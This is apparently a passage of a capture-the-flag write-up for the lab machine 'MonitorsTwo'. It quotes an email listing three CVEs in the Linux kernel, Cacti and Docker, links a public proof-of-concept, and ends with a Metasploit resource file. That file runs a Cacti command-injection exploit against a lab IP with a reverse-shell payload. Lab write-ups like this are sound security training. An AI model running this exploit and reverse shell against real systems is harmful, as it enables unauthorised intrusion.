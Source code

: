 ```text
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```

This is the result of a security audit, and 3 vulnerabilities are known :

- CVE-2021-33033: a kernel exploit
- CVE-2020-25706: another vulnerability in cacti
- CVE-2021-41091: an exploit on Docker

For this last one, after a quick search on google, there is a proof-of-concept script available : [https://github.com/UncleJ4ck/CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091)

From this exploit, we have to comme back to the shell in the container :

```bash
cat <<EOF > monitorstwo.rc
use exploit/linux/http/cacti_unauthenticated_cmd_injection
set payload linux/x86/meterpreter/reverse_tcp
set RHOSTS  10.10.11.211
set RPORT   80
set SRVHOST tun0
set LHOST   tun0
run
EOF
```
